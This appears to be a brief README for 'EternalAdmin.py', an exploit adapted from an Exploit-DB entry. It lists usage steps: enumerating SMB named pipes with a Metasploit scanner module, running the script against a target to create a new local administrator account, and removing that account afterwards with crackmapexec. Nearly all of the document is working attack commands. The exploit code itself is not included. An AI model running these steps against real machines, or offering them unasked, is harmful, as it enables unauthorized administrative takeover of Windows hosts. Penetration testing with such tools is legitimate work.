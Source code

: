 Exploit tweaked from https://www.exploit-db.com/exploits/42315

1. Enumerate pipes
```
msfconsole 
auxiliary/scanner/smb/pipe_auditor
```

2. Edit the 4 blank variables at the beginning of the exploit code 

3. Run to a add new local admin account
```
python2.7 ./EternalAdmin.py [target] [pipe]
```

4. Remove created local admin once finished
```
crackmapexec smb 192.168.4.29  -u 'z'  -p 'x' --local-auth -x "net user /delete z"
```
